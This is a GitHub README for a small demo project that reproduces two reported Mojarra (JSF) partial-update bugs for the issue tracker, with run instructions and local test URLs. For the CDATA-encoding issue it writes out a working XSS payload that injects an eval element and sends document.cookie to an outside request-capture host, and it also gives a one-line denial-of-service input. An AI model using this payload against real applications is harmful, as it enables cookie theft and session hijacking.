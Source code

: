 # mojarra-ajax
Minimal demo to reproduce some issues with mojarra partial update.

To reproduce just run
````bash
mvn package wildfly:run
````
and wait for the server to start up.

## Issue: [Ajax update fails due to invalid characters in response XML](https://github.com/eclipse-ee4j/mojarra/issues/4516)

Open the url <http://localhost:8080/ajax/index.xhtml>.

It also works for user supplied inputs, open <http://localhost:8080/ajax/input.xhtml> and enter the [\u000C](https://r12a.github.io/uniview/?charlist=%0C#title) character 
into the input field.

## Issue: [Partial rendering: insufficient CDATA encoding (XSS)](https://github.com/eclipse-ee4j/mojarra/issues/4392)

Open the url <http://localhost:8080/ajax/issue4392.xhtml>, enter `]]>` and click at the button to see the XML parser crashing (denial of service).

However, this vulnerability might also be used to inject arbitrary javascript (XSS). Just enter `]]></update><eval><![CDATA[window.open("https://postb.in/Kva1OZoi?cookie="+encodeURIComponent(document.cookie));]]></eval><update><![CDATA[` and see how your cookies have been sent to https://postb.in/b/Kva1OZoi.
